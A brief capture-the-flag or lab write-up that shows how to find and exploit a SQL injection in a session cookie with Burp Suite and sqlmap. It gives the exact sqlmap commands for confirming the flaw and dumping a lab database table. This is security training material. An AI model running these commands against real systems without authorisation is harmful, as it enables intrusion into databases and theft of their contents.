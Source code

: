 We will still be needing `burpsuite` and `sqlmap` for this lab

We can go ahead and save the request with the **cookie: session**

![](https://i.imgur.com/z8YOsfh.png)


Using this query `$ sqlmap -r request.txt --level=2` we can see that the `sqlmap` tells us that the cookie parameter is vulnerable with more information given

![](https://i.imgur.com/AnmRLEd.png)


We can then attempt to dump the table of **"Injection 0x02"** by using this command as shown below

```bash
# -r : request file
# --level=2 : Level of tests to perform
# --dump : Dump DBMS database table entries
# -T : DBMS database table(s) to enumerate

$ sqlmap -r request.txt --level=2 --dump -T injection0x02
```


![](https://i.imgur.com/ovKTnga.jpg)


**_Resources :_**


